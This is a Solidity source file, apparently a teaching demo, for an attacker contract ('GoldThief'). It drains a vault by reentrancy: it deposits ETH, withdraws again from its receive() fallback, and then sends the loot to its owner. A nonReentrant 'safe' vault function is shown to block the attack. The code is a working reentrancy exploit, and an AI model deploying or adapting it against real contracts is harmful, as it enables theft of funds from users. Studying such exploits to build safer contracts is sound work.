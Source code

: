 ```solidity
 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

interface IVault {
    function deposit() external payable;
    function vulnerableWithdraw() external;
    function safeWithdraw() external;
}

contract GoldThief {
    IVault public targetVault;
    address public owner;
    uint public attackCount;
    bool public attackingSafe;

    constructor(address _vaultAddress) {
        targetVault = IVault(_vaultAddress);
        owner = msg.sender;
    }

    function attackVulnerable() external payable {
        require(msg.sender == owner, "Only owner");
        require(msg.value >= 1 ether, "Need at least 1 ETH to attack");

        attackingSafe = false;
        attackCount = 0;

        targetVault.deposit{value: msg.value}();
        targetVault.vulnerableWithdraw();
    }

    function attackSafe() external payable {
        require(msg.sender == owner, "Only owner");
        require(msg.value >= 1 ether, "Need at least 1 ETH");

        attackingSafe = true;
        attackCount = 0;

        targetVault.deposit{value: msg.value}();
        targetVault.safeWithdraw();
    }

    receive() external payable {
        attackCount++;

        if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
            targetVault.vulnerableWithdraw();
        }

        if (attackingSafe) {
            targetVault.safeWithdraw(); // This will fail due to nonReentrant
        }
    }

    function stealLoot() external {
        require(msg.sender == owner, "Only owner");
        payable(owner).transfer(address(this).balance);
    }

    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
```
